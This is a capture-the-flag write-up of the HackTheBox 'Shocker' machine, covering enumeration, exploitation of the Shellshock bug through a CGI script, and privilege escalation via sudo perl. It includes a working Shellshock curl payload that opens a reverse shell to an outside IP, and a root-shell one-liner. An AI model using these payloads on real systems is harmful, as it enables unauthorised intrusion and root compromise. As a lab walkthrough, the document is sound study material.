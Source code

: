 # Shocker

# Enumeration

## Nmap

I start off with a simple nmap of the system. Looks like the system is running an Apache server over port 80 and OpenSSH over port 2222.

```bash
nmap -sC -sV shocker.htb > nmap.txt
```

![Untitled](writeups/hackthebox/shocker/POC/nmap)

## Website

### Page

Visiting the webpage I see a simple image of a bug saying “Don’t Bug Me!”

![Untitled](writeups/hackthebox/shocker/POC/website)

Checking the source doesnt reveal any further information as well.

```html
<!DOCTYPE html>
<html>
<body>

<h2>Don't Bug Me!</h2>
<img src="bug.jpg" alt="bug" style="width:450px;height:350px;">

</body>
</html>
```

### Dirb

Since I can’t find any giveaways on the page itself, I’ll run dirb to brute force some possible directories. I find a directory by the name of `cgi-bin/` which seems interesting to me, I should google this directory name and see if I can find any vulnerabilities.

![Untitled](writeups/hackthebox/shocker/POC/dirb.png)

After doing some research, it seems that cgi-bin is a directory containing CGI scripts which can be used to call out to applications hosted on the server. 

After a bit more digging, it seems that CGI scripts are typically shell, cgi, or perl scripts. I will run dirb again against the cgi-bin directory, this time searching for shell scripts. This reveals `/cgi-bin/user.sh`

![Untitled](writeups/hackthebox/shocker/POC/dirb2.png)

Traveling to the address prompts me to download the script, which I do. I’ll cat the file out to see what its contents are. The contents look like the results of the `uptime` command. So this is probably a script ruinning on the box.

![Untitled](writeups/hackthebox/shocker/POC/shell_script.png)

## Shellshock

One of the [results](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock) I ran into while searching for `cgi-bin/` vulnerabilities was for the ShellShock vulnerability. From what I can find it was a Bash vulnerability found in 2014 allowing for command execution due to how environment variables were handles.

The POC shown in this article shows how Bash will take `x='() { :;};’` as a function, and then execute the commands that come after it. For example with the following input:

```bash
$ env x='() { :;}; echo vulnerable' bash -c "echo test"
```

The output would be:

```bash
vulnerable
test
```

If an Apache server has CGI enabled, this can be exploited. To test this, I send a request testing if the system is vulnerable to shellshock:

```bash
curl -H "User-agent: () { :;}; echo; echo vulnerable" http://shocker.htb:80/cgi-bin/user.sh
```

![Untitled](writeups/hackthebox/shocker/POC/vulnerable.png)

Looks like this system is vulnerable!

# Exploitation

## Shellshock Reverse Shell

I set up a netcat listener on port 1234 and send the following payload to receive a connection back.

```bash
curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.2/1234 0>&1" http://shocker.htb:80/cgi-bin/user.sh
```

![Untitled](writeups/hackthebox/shocker/POC/reverse_shell.png)

We’re in!

## User Flag

Running `whoami` we can see we are the user shelly, first I’ll navigate to the users home directory and grab the user flag.

![Untitled](writeups/hackthebox/shocker/POC/user_flag.png)

# Privelege Escalation

## Sudo Commands

The first thing I always do to check for possible privelege escalation vectors is running the `sudo -l` command because of how quick it is. In this case it looks like shelly is able to run perl as root, this will be easy!

![Untitled](writeups/hackthebox/shocker/POC/shelly_sudo.png)

## Perl

Perl is a simple binary to use for priv esc, but I’ll usually check [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) to see how a binary can be exploited, as there is typically more than one way.

Because Perl is not complicated, I can just use the `-e` flag to run it directly from command line. I’ll then use the `exec` command to launching a new shell as root.

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

With my new shell launched, I run `whoami` once more to reveal that I am now root.

![Untitled](writeups/hackthebox/shocker/POC/root.png)

## Root Flag

Now all that needs to be done is navigate to the root directory and grab the root flag!

![Untitled](writeups/hackthebox/shocker/POC/root_flag.png)
